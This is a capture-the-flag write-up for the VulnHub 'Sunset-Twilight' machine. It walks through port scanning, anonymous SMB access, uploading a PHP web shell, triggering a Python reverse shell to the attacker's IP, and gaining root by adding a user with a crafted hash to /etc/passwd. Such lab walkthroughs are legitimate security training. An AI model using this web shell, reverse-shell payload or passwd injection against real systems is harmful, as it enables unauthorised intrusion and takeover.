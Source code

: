 # Sunset-Twilight

Lets check the IP address ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Twilight/Untitled.png)

```bash
IP : 10.0.2.45
```

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Twilight]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.45
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 13:40 IST
Nmap scan report for 10.0.2.45
Host is up (0.0025s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 43e945ecf45bede96447434339969dc9 (RSA)
|   256 ed67ad310417efcf750205db889497a0 (ECDSA)
|_  256 ed41e5d1b2232cd590592a378bda31c1 (ED25519)
25/tcp    open  smtp        Exim smtpd 4.92
| smtp-commands: twilight Hello nmap.scanme.org [10.0.2.27], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp    open  http        Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
2121/tcp  open  ftp         pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 10.0.2.45:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root           35 Jul 16  2020 22253251-65325.twilight
3306/tcp  open  mysql       MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.22-MariaDB-0+deb10u1
|   Thread ID: 39
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSigpipes, Speaks41ProtocolOld, Support41Auth, ConnectWithDatabase, SupportsTransactions, FoundRows, InteractiveClient, IgnoreSpaceBeforeParenthesis, LongColumnFlag, SupportsCompression, SupportsLoadDataLocal, Speaks41ProtocolNew, ODBCClient, DontAllowDatabaseTableColumn, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: 9}/mZY0%fSOod%,L{G1]
|_  Auth Plugin Name: mysql_native_password
8080/tcp  open  http        PHP cli server 5.5 or later
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Login - powered by Easy File Sharing Web Server
63525/tcp open  http        PHP cli server 5.5 or later
|_http-title: Login - powered by Easy File Sharing Web Server
MAC Address: 08:00:27:54:08:C8 (Oracle VirtualBox virtual NIC)
Service Info: Host: twilight; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Sunset-Twilight/Untitled%201.png)

Now I also found smb services lets enumerate it also →

## SMB Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Sunset-Twilight/Untitled%202.png)

Now I have a directory to Recon further `WRKSHARE` Lets try for smb shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Twilight]
└─$ smbclient -N //10.0.2.45/WRKSHARE/
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul  9 04:27:09 2020
  ..                                  D        0  Thu Jul  9 04:27:09 2020
  root                                D        0  Thu Jul 16 19:20:46 2020
  run                                 D        0  Thu May  4 13:40:22 2023
  lost+found                          D        0  Thu Jul  9 03:38:46 2020
  initrd.img                          N 25814661  Thu Jul  9 04:28:16 2020
  etc                                 D        0  Thu May  4 13:40:13 2023
  proc                                D        0  Thu May  4 13:40:17 2023
  vmlinuz                             N  5274864  Sun Jun  7 21:12:22 2020
  initrd.img.old                      N 25807574  Thu Jul  9 04:28:02 2020
  opt                                 D        0  Thu Jul  9 03:39:01 2020
  srv                                 D        0  Thu Jul  9 03:39:01 2020
  sys                                 D        0  Thu May  4 13:40:05 2023
  lib64                               D        0  Thu Jul  9 03:39:08 2020
  sbin                                D        0  Thu Jul 16 19:23:39 2020
  media                               D        0  Thu Jul  9 03:38:46 2020
  bin                                 D        0  Thu Jul 16 17:52:20 2020
  usr                                 D        0  Thu Jul  9 03:39:01 2020
  lib32                               D        0  Thu Jul  9 03:38:56 2020
  dev                                 D        0  Thu May  4 13:40:11 2023
  lib                                 D        0  Thu Jul  9 07:50:29 2020
  vmlinuz.old                         N  5274864  Mon Apr 27 10:35:39 2020
  libx32                              D        0  Thu Jul  9 03:38:56 2020
  home                                D        0  Thu Jul  9 04:45:56 2020
  mnt                                 D        0  Thu Jul  9 03:39:01 2020
  var                                 D        0  Thu Jul  9 05:33:27 2020
  boot                                D        0  Thu Jul  9 04:36:53 2020
  tmp                                 D        0  Thu May  4 13:40:22 2023

		7158264 blocks of size 1024. 4369328 blocks available
```

I got whole root directory of victim machine so It good for me lets upload a reverse shell in `/var/www/html/` location →

```bash
smb: \var\www\html\> put cmd.php
putting file cmd.php as \var\www\html\cmd.php (4.3 kb/s) (average 119.6 kb/s)
```

cmd.php content →

```bash
<?php
system($_GET['cmd']);
?>
```

In response to that I got this →

![Untitled](/Vulnhub-Files/img/Sunset-Twilight/Untitled%203.png)

So lets run our python payload for reverse shell →

```bash
http://10.0.2.45/cmd.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.2.27%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27
```

![Untitled](/Vulnhub-Files/img/Sunset-Twilight/Untitled%204.png)

Now I tried finding SUIDs and GUISs but no luck then I got this →

![Untitled](/Vulnhub-Files/img/Sunset-Twilight/Untitled%205.png)

Now I can add a user in this file and run as root →

First we need to choose a password, salt it and hash the result. openssl to the rescue.

Flags:

- -`1` what hashing algorithm to use. In our use case it doesnt matter, therefore we use MD5 which should be avoided in real world PT as it is not secure.
- -`salt salt` string to use as salt. I choose the string salt
- `password` clear text password we would like to use.

```bash
$ openssl passwd -1 -salt salt password
$1$salt$qJH7.N4xYta3aEG/dfqo/0
```

we need to add some data in order for it to be aligned with the `/etc/passwd` format. This is the final result:

```bash
shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```

I named the user `shiv`. now lets write into the `/etc/passwd` file with nano →

![Untitled](/Vulnhub-Files/img/Sunset-Twilight/Untitled%206.png)

```bash
www-data@twilight:/$ su shiv
Password: 
root@twilight:/# whoami
root
root@twilight:/#
root@twilight:/# cd /root
root@twilight:~# ls
root.txt
root@twilight:~# cat root.txt
(\ 
\'\ 
 \'\     __________  
 / '|   ()_________)
 \ '/    \ ~~~~~~~~ \
   \       \ ~~~~~~   \
   ==).      \__________\
  (__)       ()__________)

34d3ecb1bbd092bcb87954cee55d88d3

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
root@twilight:~#
```

Now I am the boss root —> lets see the user.txt file now ➡️

```bash
root@twilight:/home/miguel# cat user.txt 
6b963e69f7b4a6205513973e4cace702
root@twilight:/home/miguel#
```